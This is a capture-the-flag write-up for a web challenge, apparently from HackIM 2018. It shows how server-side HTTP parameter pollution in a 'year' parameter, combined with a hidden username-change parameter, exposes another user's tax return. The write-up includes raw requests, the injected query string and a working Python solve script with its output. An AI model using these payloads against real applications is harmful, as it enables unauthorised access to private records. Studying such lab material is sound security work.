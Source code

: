 ## Tax Aversion (Web, 500pt)

> Reward $4300  Client Mark Jeffrey  Suggested prior experience Moderate
>
> A certain distinguished politician is strangely reluctant to publish his tax return. Enquiring minds would be thrilled to obtain a copy of Michael Dowd's tax return. To get started, feel free to use my HMRC account: mjeffrey:jitterbeetle
> 
> [advice pending] -- admin
>
> [Go to tagret](http://hmrc.hackxor.net/)
> 
> HINT: Double encoding isn't just a filter bypass technique - it can reveal important details about a system.

![](site.png)

Application provides only a small surface for exploitation. Users can only reset their password and view their tax return. We are given an account and asked to retrieve the tax return for another user (`mdowd`).

Request to update our password is:

```
POST / HTTP/1.1
Host: hmrc.hackxor.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://hmrc.hackxor.net/
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Cookie: _globalinstancekey=301063/1/P6hru1HheN0sKJ_acY7DXQ==; sid=wGpEUWHRDujkIhqTXcOFWG8BucLtNSgS
Connection: close

oldpass=jitterbeetle&newpass1=jitterbeetle&newpass2=jitterbeetle&token=EzXQt1IFGF4xc5fopa8CK76XKiPyuHWg
```

Request to view our tax return is:

```
GET /viewReturn?year=2017&username=mjeffrey HTTP/1.1
Host: hmrc.hackxor.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.11; rv:58.0) Gecko/20100101 Firefox/58.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: _globalinstancekey=301063/1/P6hru1HheN0sKJ_acY7DXQ==; sid=wGpEUWHRDujkIhqTXcOFWG8BucLtNSgS
Connection: close
```

After fuzzing all user inputs for vulnerabilities (including `sid` for padding oracle :P) the only parameter that seemed to be *kind of injectable* was `year` in the tax return requests. We could send payloads such as `2017'#ignored` and still get our tax return. However, `2017';#` or `2017' #` didn't work. Tried several bypasses, such as alternate spacing (`\x0a`, `\x0d`, `\x09`, `/**/`) and double url encoding but none worked. There must be something else...

Influenced by the last challenge my teammate [@tomtoump](https://github.com/tomtoump) solved (writeup link here) I tested the application's behavior on parameter pollution. It seemed that polluted parameters were put in array. So, I decided to test for **server-side parameter pollution**.

**Request:**
```
GET /viewReturn?year=2017'%26username%3dmdowd%3b%23&username=mjeffrey
```

**Response:**
```
Couldn't find user mjeffreymdowd
```

**Request:**
```
GET /viewReturn?year=2017'%26username%3ddowd%3b%23&username=m
```

**Response:**
```
You are not authorised to view this tax return
```

The `username` must be our real username.

I spent several more hours trying to find a way to make the username `mdowd` until my teammate [@hpyl](https://github.com/hpyl) told me that by appending the `login` parameter in password update requests, we are able to update our username besides our password! In my opinion, even though this is something that may happen in real-world applications, it just doesn't fit a CTF challenge and negatively affected its quality. Nonetheless, we can now get `mdowd`'s tax return by updating our username to `m` and then use the server-side pp to concatenate it with `dowd`.

Final solution is summarized in the [solve.py](solve.py) script.

```python
import re
import requests

_target = 'http://hmrc.hackxor.net/'
_user, _pass = 'mjeffrey', 'jitterbeetle'

sess = requests.Session()

# create new instance
sess.get(_target)

# login with provided account
sess.post(_target + 'login', data={'user': _user, 'password': _pass})
print '[+] logged in: ' + sess.cookies.get_dict()['sid']

# get csrf token
resp = sess.get(_target)
csrf_token = re.search(r'value="([^"]{30,35})"', resp.text).group(1)
print '[+] got csrf token: ' + csrf_token

# update username
sess.post(_target, data={'login': 'm', 'oldpass': _pass, 'newpass1': _pass, 'newpass2': _pass, 'token': csrf_token})
print '[+] updated username'

# exploit server-side hpp to access mdowd tax return
resp = sess.get(_target + 'viewReturn', params={'year': '2017\'%26username%3ddowd%3b%23', 'username': 'm'})
flag = re.search(r'hackim18{\'([^}]+)\'}', resp.text).group(1)
print '[+] flag: hackim18{{\'{}\'}}'.format(flag)
```

```
[+] logged in: GW9VIUEweK1VdWKtSWFrAoQ9Nl1xMaoy
[+] got csrf token: DiQdJACgGiKOBKUKlAzVLDzyScdSADud
[+] updated username
[+] flag: hackim18{'f49f40f2e2ef092770212387966e92d5'}
```

## References

* https://www.ikkisoft.com/stuff/HPParticle.pdf
* https://www.acunetix.com/blog/whitepaper-http-parameter-pollution/
